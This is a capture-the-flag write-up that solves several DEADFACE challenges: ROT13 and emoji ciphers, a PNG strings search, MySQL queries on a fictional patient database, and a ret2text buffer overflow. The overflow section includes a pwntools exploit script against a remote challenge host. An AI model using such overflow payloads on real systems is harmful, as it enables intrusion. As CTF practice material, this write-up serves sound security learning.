


# Hail Caesar

Submit the flag with the dog's name as: deadface{dog's name}


Look sticky note on write `Zl qbt'f anzr vf Srgpu` Like ROT13 so i use so script to decode this crpyto

```python
import codecs

code = "Zl qbt'f anzr vf Srgpu"
decoded = codecs.decode(code, 'rot_13')

print(decoded)
```

```
My dog's name is Fetch
```
So Flag is  `deadface{Fetch}` 

# Infrequent Emojis
Question talk weird Emoji and i check post have emoji
this post have emoji like emoji table
https://doomscroll.dctf.io/post/252


First, confirm the known information.
`deadface{`
| Emoji | 🪦 | 🕯️ | 💀 | 🪦 | 🩸 | 💀 | ⚰️ | 🕯️ | { |
|---|---|---|---|---|---|---|---|---|---|
| text | d | e | a | d | f | a | c | e | { |


so let decrypt this
```
deadface{??ea?e_???_???_??_?e?_??a?da?d}
```

ok let split words and guess
- `🦉🕸️ea🌙e` → **please**
- `🌙☣️a🦇da🔮d` → **standard**

New letters learned:

| Emoji | 🦉 | 🕸️ | 🌙 | ☣️ | 🦇 | 🔮 |
|---|---|---|---|---|---|---|
| Letter | p | l | s | t | n | r |

now new info
- `☣️🔮🧪` → **try**
- `🦇e🔥` → **new**

| Emoji | 🧪 | 🔥 |
|---|---|---|
| Letter | y | w |

- `⛓🧪`→ **my**
- `🖤⛈☣`→**out**

so collection emoji to make table
| text | Emoji |
| --- | --- |
| a | 💀 |
| c | ⚰️ |
| d | 🪦 |
| e | 🕯️ |
| f | 🩸 |
| l | 🕸️ |
| m | ⛓️ |
| n | 🦇 |
| o | 🖤 |
| p | 🦉 |
| r | 🔮 |
| s | 🌙 |
| t | ☣️ |
| u | ⛈️ |
| w | 🔥 |
| y | 🧪 |

Decrypt with a script
```python
table = {
    "🪦": "d", "🕯": "e", "💀": "a", "🩸": "f", "⚰": "c",
    "🦉": "p", "🕸": "l", "🌙": "s", "☣": "t", "🔮": "r",
    "🧪": "y", "🖤": "o", "⛈": "u", "⛓": "m", "🦇": "n", "🔥": "w",
}
cipher = "🪦🕯️💀🪦🩸💀⚰️🕯️{🦉🕸️🕯️💀🌙🕯️_☣️🔮🧪_🖤⛈️☣️_⛓️🧪_🦇🕯️🔥_🌙☣️💀🦇🪦💀🔮🪦}"
cipher = cipher.replace("\ufe0f", "")
print("".join(table.get(c, c) for c in cipher))
```

flag `deadface{please_try_out_my_new_standard}`

# Hidden Loot Box



it hidden flag under img
and check source 


flag `daedface{uh_I_feel_exposed}`

# headshot
use strings to search png
```sh
(base) daohui@xiaohuideMacBook-Air headshot % strings headshot003.png | grep -i "deadface{"
deadface{b00m_h34Dsh0TTT}
```

# Admitted Under Another Name
now this is console
and i change mysql 
mysql is a database can save data
```mysql
MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| aurora_audit       |
| aurora_ehr         |
| aurora_pharmacy    |
| aurora_trials      |
| information_schema |
| performance_schema |
+--------------------+
6 rows in set (0.002 sec)
```

ok i look for `aurora_ehr`

ehr maybe is `Electronic Health Record`

```mysql
MySQL [aurora_ehr]> SHOW TABLES;
+----------------------+
| Tables_in_aurora_ehr |
+----------------------+
| clinical_notes       |
| diagnoses            |
| encounters           |
| insurance_plans      |
| patients             |
| providers            |
+----------------------+
6 rows in set (0.002 sec)
```
```
MySQL [aurora_ehr]> DESCRIBE patients;
+---------------+--------------+------+-----+---------+-------+
| Field         | Type         | Null | Key | Default | Extra |
+---------------+--------------+------+-----+---------+-------+
| patient_id    | int          | NO   | PRI | NULL    |       |
| mrn           | varchar(16)  | YES  | UNI | NULL    |       |
| first_name    | varchar(50)  | YES  |     | NULL    |       |
| last_name     | varchar(50)  | YES  |     | NULL    |       |
| alias         | varchar(80)  | YES  |     | NULL    |       |
| dob           | date         | YES  |     | NULL    |       |
| sex           | char(1)      | YES  |     | NULL    |       |
| ssn_last4     | char(4)      | YES  |     | NULL    |       |
| phone         | varchar(20)  | YES  |     | NULL    |       |
| email         | varchar(120) | YES  |     | NULL    |       |
| address       | varchar(120) | YES  |     | NULL    |       |
| city          | varchar(60)  | YES  |     | NULL    |       |
| state         | char(2)      | YES  |     | NULL    |       |
| zip           | varchar(10)  | YES  |     | NULL    |       |
| is_vip        | tinyint      | YES  |     | 0       |       |
| registered_at | datetime     | YES  |     | NULL    |       |
| deleted_at    | datetime     | YES  |     | NULL    |       |
+---------------+--------------+------+-----+---------+-------+
```
colum have `is_vip` 0 = false 1 = true

so find is_vip = 1
```sh
MySQL [aurora_ehr]> SELECT *
    -> FROM patients
    -> WHERE is_vip = 1;
+------------+------------+------------+-----------+---------------+------------+------+-----------+--------------+------------------------------+---------------+-----------+-------+-------+--------+---------------------+------------+
| patient_id | mrn        | first_name | last_name | alias         | dob        | sex  | ssn_last4 | phone        | email                        | address       | city      | state | zip   | is_vip | registered_at       | deleted_at |
+------------+------------+------------+-----------+---------------+------------+------+-----------+--------------+------------------------------+---------------+-----------+-------+-------+--------+---------------------+------------+
|       1007 | AH-0044719 | Gregory    | Halloran  | George Harmon | 1971-05-09 | M    | 3914      | 440-555-1713 | amanda.robinson@mail.example | 6266 Cedar St | Crestline | OH    | 44004 |      1 | 2025-11-14 22:41:00 | NULL       |
+------------+------------+------------+-----------+---------------+------------+------+-----------+--------------+------------------------------+---------------+-----------+-------+-------+--------+---------------------+------------+
1 row in set (0.001 sec)

MySQL [aurora_ehr]> 
```

flag `daedface{AH-0044719}`

# The Crypt
frist i check file
```sh
(pwn) daohui@xiaohuideMacBook-Air ctf % file The_Crypt 
The_Crypt: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=2c55266091d0cf8a46e03aa18014e9d6f75bc1cf, for GNU/Linux 3.2.0, not stripped
```
file is ELF AND 64 bit LSB

and i use `checksec`
```sh
(pwn) daohui@xiaohuideMacBook-Air ctf % checksec The_Crypt 
/opt/anaconda3/envs/pwn/lib/python3.11/site-packages/unicorn/unicorn_py3/unicorn.py:123: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html. The pkg_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
  import pkg_resources
[*] '/Users/daohui/Downloads/ctf/The_Crypt'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
```
Organize the detail
```
No Canary
NO PIE addr (0x400000)
Strip
```
ok let ida
first check main process
```cpp
int main(int argc, const char **argv, const char **envp)
{
  char s2[64]; // [rsp+0h] [rbp-80h] BYREF
  char s[64]; // [rsp+40h] [rbp-40h] BYREF

  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 2, 0);
  print_art();
  puts("=== CRYPT ACCESS TERMINAL ===");
  printf("\n [*] The hike here took hours through forgotten, old woods.");
  printf("\n [*] ...It was worth it.");
  printf("\n [*] Before you lies a decrepit, crumbling crypt.");
  printf("\n [*] Theres no door, no windows, just... carved stone.");
  printf("\n\n[!] How will you get inside? (Secret Code Required): ");
  fflush(stdout);
  if ( !fgets(s, 64, stdin) )
    return 0;
  s[strcspn(s, "\n")] = 0;
  de_crypt(s2);
  if ( !strcmp(s, s2) )
  {
    putchar(10);
    slowtype("...But you were already headed there, weren't you?\n\n\n");
    whispering_madness();
  }
  else
  {
    puts("Only Silence.");
  }
  return 0;
}
```

i find this function `de_crypt()` working
```cpp
_BYTE de_crypt(__int64 a1)
{
  _BYTE *result; // rax
  int i; // [rsp+14h] [rbp-4h]

  for ( i = 0; nothing_at_all[i]; ++i )
    *(_BYTE *)(i + a1) = nothing_at_all[i] ^ 0x13;
  result = (_BYTE *)(i + a1);
  *result = 0;
  return result;
}
```
this is xor to verify
verify data is save `nothing_at_all`
```py
code = "\cv}LG{vLW||aLG|L]|d{vav"
key = 0x13

decrypted = bytes([b ^ key for b in code])
print(decrypted)
```
output is `Open_The_Door_To_Nowhere`

let me test
```sh
[!] How will you get inside? (Secret Code Required): Open_The_Door_To_Nowhere

...But you were already headed there, weren't you?


Darkness begins to surround you, and frantic, angry whispers coalesce in your mind:

 [!] "WHO DARES ATTEMPT TO ENTER THE FORGOTTEN REALM?!":
```
jump to `whispering_madness()` and buf 64buff+8rbp 
```cpp
__int64 whispering_madness()
{
  _BYTE v1[64]; // [rsp+0h] [rbp-40h] BYREF

  puts("Darkness begins to surround you, and frantic, angry whispers coalesce in your mind:");
  printf("\n [!] \"WHO DARES ATTEMPT TO ENTER THE FORGOTTEN REALM?!\":");
  return gets(v1);
}
```
and success jump and output func `whispering_madness` but not output flag so maybe is ret2text

ok payload like
```py
payload = b'A' * 72 + p64(0x401660)
```
and exploit

```py
from pwn import *

p = remote('159.65.228.107', 5001)

secret_code = b"Open_The_Door_To_Nowhere"
p.sendlineafter(b"(Secret Code Required): ", secret_code)

payload = b'A' * 72 + p64(0x401660)

p.sendline(payload)

```

flag `deadface{d3crypt3d_1nt0_n0th1ng}`